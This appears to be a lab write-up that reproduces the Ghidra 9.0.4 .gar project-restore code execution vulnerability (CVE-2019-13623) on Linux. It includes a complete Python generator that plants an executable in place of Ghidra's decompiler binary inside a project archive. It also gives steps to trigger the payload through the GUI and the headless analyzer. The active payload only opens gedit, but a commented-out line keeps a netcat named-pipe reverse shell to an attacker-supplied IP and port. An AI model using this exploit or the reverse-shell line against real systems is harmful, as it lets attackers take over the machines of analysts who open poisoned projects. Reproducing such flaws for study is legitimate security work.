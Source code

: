 ```yaml
---
title: "Ghidra"
categories:
  - Project Malware Analysis
tags:
  - malware
  - software analysis
---
```


# 1. Ghidra (Linux) 9.0.4 - .gar Arbitrary Code Execution
## Info
- [Ghidra](https://ghidra-sre.org/) is the reverse engineering tool that can be used in Linux.
- Root cause of vulnerability or how it works can be found here: [Author's note](https://blog.fxiao.me/ghidra/).
    - Author's tutorial is here: [Youtube demo](https://www.youtube.com/watch?v=RGqQMUd9hZM)
- Install from [Ghidra Official Webpage](https://ghidra-sre.org/releaseNotes_9.0.4.html).
    - You need to install exact version mentioned in [Exploit-db](https://www.exploit-db.com/exploits/47231) or [CVE-2019-13623 Detail](https://nvd.nist.gov/vuln/detail/CVE-2019-13623).
    - Also, using Ubuntu 18 LTS ver is recommended as mentioned.
## Procedure
1. Using Ghidra, make empty project (e.g., proj_mal).
    1. Import `a.out`. `a.out` means nothing. This is because project just needs any bin to analyze.
    1. Archive this project.
1. Editing malicious gar file generator you downloaded from [Exploit-db](https://www.exploit-db.com/exploits/47231).
    - Here, I just simply wrote lines 18 instead of 19 as previous code is hard to check and it doesn't matter.
    - This code intends that Ghidra executes arbitrary code: opens the gedit.
    ```python=
    import os
    import inspect
    import argparse
    import shutil
    from shutil import copyfile

    parser = argparse.ArgumentParser()
    parser.add_argument("file", help="Path to input export .gar file",default=1)
    parser.add_argument("ip", help="Ip to nc listener",default=1)
    parser.add_argument("port", help="Port to nc listener",default=1)

    args = parser.parse_args()

    if args.ip and args.port and args.file:

        rootDirURL=os.path.dirname(os.path.abspath(inspect.getfile(inspect.currentframe())))
        path = "../Ghidra/Features/Decompiler/os/linux64/decompile"
        os.system("mkdir -p ../Ghidra/Features/Decompiler/os/linux64/")
    #    os.system("echo 'rm -f x; mknod x p && nc "+args.ip+" "+args.port+" 0<x | /bin/bash 1>x' > decompile")
        os.system("echo 'gedit' > decompile")
        os.system("chmod +x decompile")
        copyfile("decompile",path)
        copyfile(args.file,rootDirURL+"/"+"project.gar")
        os.system("zip -q project.gar ../Ghidra/Features/Decompiler/os/linux64/decompile")
        os.system("echo 'To fully export this archive, place project.gar to GHIDRA_INSTALL_DIR root path and open it with Restore Project at Ghidra.' > README_BEFORE_OPEN_GAR_FILE")
        os.system("zip -q project.zip README_BEFORE_OPEN_GAR_FILE")    
        os.system("zip -q project.zip project.gar") 
        os.system("rm decompile README_BEFORE_OPEN_GAR_FILE")
        os.system("rm project.gar")
    ```
1.  Run mal.py.
`python3 mal.py proj_mal.gar 123 4444`
1. Extract zip file in Ghidra folder.
1. Run Ghidra again and restore project `proj_mal.gar`.
    - You can see `a.out`
    ![](https://i.imgur.com/Lu3lDwv.png)
    - Double click `a.out` then it will ask you whether you want to analyze it automatically or not. Click yes and analyze button.
    - Then you can see gedit is opened twice.
    ![](https://i.imgur.com/EwlTc6o.png)

## Execution without GUI (for automation)

- For automation, you have to use <mark>'Headless Analyzer'</mark> instead of GUI.
    - For more detailed command options, refer analyzeHeadlessREADME.html in support folder.
- :star: Type below code in terminal. This command also triggers what we intended like above procedure. 
`./support/analyzeHeadless ./ exp_01 -process '*.out'`
    - `exp_01` is the project name user set.
    - You can see Java logs as well as below report in terminal.
![](https://i.imgur.com/ORGRFzn.png)
    - Also, what attacker wanted can be observed as follows. Arbitrary code is executed: gedit is opended twice.
![](https://i.imgur.com/ZE1d2xP.png)
- Then, you may make your own bash script or python program whatever you want along with an experiment process including editing bite or getting messages from debugging tool.
